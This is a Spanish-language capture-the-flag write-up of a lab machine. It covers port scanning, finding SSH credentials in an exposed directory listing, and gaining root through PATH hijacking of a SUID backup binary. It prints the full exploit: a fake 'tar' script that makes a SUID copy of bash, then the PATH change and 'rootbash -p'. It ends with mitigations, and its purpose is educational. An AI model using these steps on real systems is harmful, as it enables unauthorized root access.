## Información General

| Campo                    | Detalle                                                                           |
| ------------------------ | --------------------------------------------------------------------------------- |
| **Nombre de la máquina** | Path Hijacking                                                                    |
| **Plataforma**           | whoami-labs                                                                       |
| **Dificultad**           | Facil                                                                             |
| **Sistema Operativo**    | Linux (Ubuntu)                                                                    |
| **IP**                   | 172.17.0.2                                                                        |
| **Servicios expuestos**  | 22 (SSH - OpenSSH 8.9p1), 80 (HTTP - SimpleHTTPServer), 8080 (HTTP - Golang/Hugo) |

## Resumen del Ataque

El vector inicial se encontró mediante enumeración de directorios en el puerto 80, revelando la ruta `/dev/` con listado de directorios habilitado. Navegando por esa estructura (`.backup/`, `.config/api/keys/`) se llegó a un archivo `oauth.py` de desarrollo que, pese a estar comentado como "no publicar", contenía credenciales SSH en texto plano para el usuario `srv_backup`. Con esas credenciales se obtuvo acceso SSH directo. La escalada de privilegios se logró enumerando binarios SUID: `/usr/local/bin/backup` resultó ser un binario compilado con SUID root que invoca internamente `tar` sin ruta absoluta mediante `system()`. Manipulando el `PATH` para anteponer un `tar` falso que copia `/bin/bash` con bit SUID, se obtuvo una shell con privilegios de root (PATH Hijacking).

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sC -sV`)
- Enumeración de directorios web con dirsearch y navegación manual de directory listing
- Exposición de credenciales en archivo de configuración de desarrollo (`oauth.py`)
- Acceso SSH con credenciales filtradas
- Enumeración de binarios SUID (`find / -perm -4000`)
- Análisis de binario compilado con `strings`
- Escalada de privilegios por PATH Hijacking (llamada a `system()` sin ruta absoluta dentro de binario SUID)

## Desarrollo

**1. Escaneo inicial de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



**2. Enumeración de versiones y scripts por defecto**

```
nmap -p 22,80,8080 -sC -sV -oN allports 172.17.0.2
```



**3. Revisión del servicio web en puerto 80**

```
http://172.17.0.2/
```



Plantilla por defecto y sin información relevante en el código fuente.

**4. Revisión del servicio web en puerto 8080**

```
http://172.17.0.2:8080/
```



Sitio "CyberStore", venta de hardware para auditorías, sin vector aparente en primera instancia.

**5. Enumeración de contenido en el puerto 80**

```
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html
```



**6. Navegación del directory listing en /dev/**

```
http://172.17.0.2/dev/
```



```
http://172.17.0.2/dev/.backup/
```



```
http://172.17.0.2/dev/.backup/old_index.html
```


```
http://172.17.0.2/dev/.config/
```



```
http://172.17.0.2/dev/.config/api/
```



```
http://172.17.0.2/dev/.config/api/keys/
```



**7. Localización de credenciales en archivo de desarrollo**

```
http://172.17.0.2/dev/.config/api/keys/oauth.py
```



**8. Acceso SSH con las credenciales filtradas**

```
ssh srv_backup@172.17.0.2
```

```
srv_backup@path_hijacking:~$ grep bash /etc/passwd
```



**9. Enumeración de privilegios**

```
srv_backup@path_hijacking:~$ sudo -l
-bash: sudo: command not found
```

```
srv_backup@path_hijacking:~$ find / -perm -4000 -type f 2>/dev/null
```



```
srv_backup@path_hijacking:~$ ls -la /usr/local/bin/backup
```



**10. Análisis del binario SUID**

```
srv_backup@path_hijacking:~$ strings /usr/local/bin/backup
```

```
tar -czf /tmp/backup.tar.gz /home/* 2>/dev/null
```



El binario, con SUID root, invoca `tar` mediante `system()` sin especificar ruta absoluta.

**11. Explotación por PATH Hijacking**

```
mkdir -p /tmp/fakepath
```

```
cat > /tmp/fakepath/tar << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
EOF
```



```
srv_backup@path_hijacking:/tmp/fakepath$ chmod +x /tmp/fakepath/tar

srv_backup@path_hijacking:/tmp/fakepath$ export PATH=/tmp/fakepath:$PATH

srv_backup@path_hijacking:/tmp/fakepath$ /usr/local/bin/backup
```



```
srv_backup@path_hijacking:/tmp/fakepath$ /tmp/rootbash -p
```



**12. Verificación y captura de la flag**

```
rootbash-5.1# whoami
```



```
rootbash-5.1# cd /root
rootbash-5.1# cat flag.txt 
```



## Lecciones Aprendidas

- El listado de directorios habilitado en un servidor web puede exponer archivos de desarrollo con credenciales, aunque estén "ocultos" bajo rutas como `.config` o `.backup`.
- Un comentario de "no subir a producción" no sustituye a nunca dejar credenciales en texto plano, ni siquiera en entornos de desarrollo accesibles.
- Un binario SUID que invoque comandos del sistema sin ruta absoluta (`system("tar ...")` en vez de `system("/usr/bin/tar ...")`) es vulnerable a PATH Hijacking independientemente de que esté compilado y no sea un script.

## Medidas de Mitigación

- Deshabilitar el listado de directorios (`autoindex off` / `Options -Indexes`) en cualquier servidor web, incluyendo rutas de desarrollo.
- Nunca almacenar credenciales en texto plano en archivos accesibles desde el webroot, ni siquiera comentadas como temporales.
- En binarios SUID, invocar siempre comandos del sistema con ruta absoluta (`/usr/bin/tar`) o, mejor aún, evitar `system()`/`popen()` y usar `execve()` con rutas fijas y un entorno `PATH` controlado explícitamente dentro del propio binario.
- Auditar periódicamente los binarios con bit SUID del sistema (`find / -perm -4000`) para detectar binarios no estándar añadidos por terceros.

